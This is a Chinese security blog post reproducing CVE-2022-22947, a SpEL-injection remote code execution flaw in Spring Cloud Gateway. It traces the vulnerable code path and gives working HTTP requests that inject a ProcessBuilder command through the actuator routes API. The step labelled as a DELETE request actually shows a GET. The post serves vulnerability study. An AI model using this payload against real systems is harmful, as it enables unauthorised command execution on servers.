







# CVE-2022-22947 Spring Cloud Gateway SPEL RCE 复现 - bitterz - 博客园

> 原文：[`www.cnblogs.com/bitterz/p/15964852.html`](https://www.cnblogs.com/bitterz/p/15964852.html)

目录

*   0 环境搭建
*   1 漏洞触发点
*   2 构建 poc
*   3 总结
*   参考

# 0 环境搭建

影响范围：

Spring Cloud Gateway 3.1.x < 3.1.1

Spring Cloud Gateway < 3.0.7

p 牛的 vulhub 已经搭好 docker 了，[`github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947`](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947)

也可以本地搭建

```
git clone https://github.com/spring-cloud/spring-cloud-gateway
cd spring-cloud-gateway
git checkout v3.1.0
然后 idea 打开项目，再调试或启动 
```

# 1 漏洞触发点

首先找到 spring-cloud-gateway 的 commit 记录，看看修改的地方，直接来到 https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e

如下：



非常标准的 spel 表达式使用，代码在 org/springframework/cloud/gateway/support/ShortcutConfigurable#getValue()方法中，搜索其调用位置


三个枚举调用都位于 ShortcutConfigurable 内部的枚举类 ShortcutType 中，且重写了不同的 normalize 方法，继续向上找 ShortcutType#normalize 方法的调用


最终都来到`org.springframework.cloud.gateway.support.ConfigurationService$ConfigurableBuilder#normalizeProperties`方法中，并且传入的时该类的 properties 成员变量，而 normalizeProperties()方法的调用只出现在该类的父类 AbstractBuilder.bind()中



继续向上寻找 bind 方法的调用


发现`org.springframework.cloud.gateway.route.RouteDefinitionRouteLocator#loadGatewayFilters`方法中不仅出现了 bind 方法调用，还出现了 properties 方法调用，跟进该 properties 方法可见对 properties 成员变量的设置，即前述的`org.springframework.cloud.gateway.support.ConfigurationService$ConfigurableBuilder#normalizeProperties`方法中向下调用 spel 表达式时恰好需要的 properties 成员变量。

由此即可知道该漏洞的触发可能来自于 gatewayFilter 的添加，并且从 loadGatewayFilters 方法继续向上跟踪调用如下：

```
RouteDefinitionRouteLocator.loadGatewayFilters <- RouteDefinitionRouteLocator.getFilters <- RouteDefinitionRouteLocator.convertToRoute <- RouteDefinitionRouteLocator.getRoutes <- GatewayControllerEndpoint.route 
```


也可以看到确实来自于 filter 的添加。

所以思路可以出来，由于添加 filter 时输入了 spel 表达式，被当作 properties 进行解析，最终导致恶意表达式被执行，从而实现 rce。

再从 spring cloud gateway 的文档进行查看



文档的 11.5 中提到，使用 POST 请求/gateway/routes/id 并使用 json 格式的数据，可以创建一个 route，并且从前面的格式中也可以看到，支持添加 filter。

但没有给出 filters 字段中具体应该怎么写，但没关系，我们从源代码可以找到

`org.springframework.cloud.gateway.filter.FilterDefinition`这个 filter 的定义类中，其成员变量如下


运行程序后，再 mappings 里面可以看到/routes/{id}这个 uri 对应的方法



跟进该方法可以看到对 filter 给进的 name 有验证



调试模型下可以看到允许的 name 如下



这里的每种 name，实际上又对应了不同的 GatewayFilterFactory



其中有个 AddResponseHeaderGatewayFilterFactory 可以向 response hedder 中写入执行结果，因此恰好满足回显要求


根据这里的 getName 和 getValue 可以知道还需要添加 name 和 value 字段

# 2 构建 poc

根据前面的信息，可以逐步汇总出 poc 的样子，

*   首先是 POST /actuator/gateway/routes/
*   然后添加 json body，其中需要给出 id 和 filters 字段
*   其中 filters 字段需要给出 name 和 args，而 name 的值需要设置为 AddResponseHeader 获得回显，args 中需要 name 和 value

最终 poc 如下

*   post 请求创建 route 和 filter

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result=",
      "value": "#{new java.util.Scanner(new java.lang.ProcessBuilder('cmd', '/c', 'ping', 'baidu.com').start().getInputStream(), 'GBK').useDelimiter('asfsfsdfsf').next()}"
    }
  }],
   "uri": "http://test.com"
} 
```


*   POST 请求/refresh，使新建的 uri 和 filter 生效

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```


由于前面使用的 spel 是 ping 百度的，所以需要等待一会，也可以换成其它命令，比如 dir、ipconfig、whoami 等

*   GET 请求/actuator/gateway/routes/test，触发 spel，并得到回显

```
GET /actuator/gateway/routes/test HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close 
```


得到 ping 命令的输出

*   DELETE 请求删除/actuator/gateway/routes/test

```
GET /actuator/gateway/routes/test HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close 
```


# 3 总结

昨天在 twitter 上看到了这个 rce，没有太注意，昨天晚上看到通报，感觉这个洞还是有价值的，想着今天来复现应该差不多，结果 P 牛昨天就把 docker 上传到 vulhub 了，y4er 师傅也写出了分析文章，跟不上啊= =

p 牛和 y4er 师傅用的是 spring 自带的类处理命令执行的返回字节流，我用的是之前找到的 jdk 自带方法，其实都差不多

# 参考

[`github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947`](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947)

[`y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/`](https://y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/)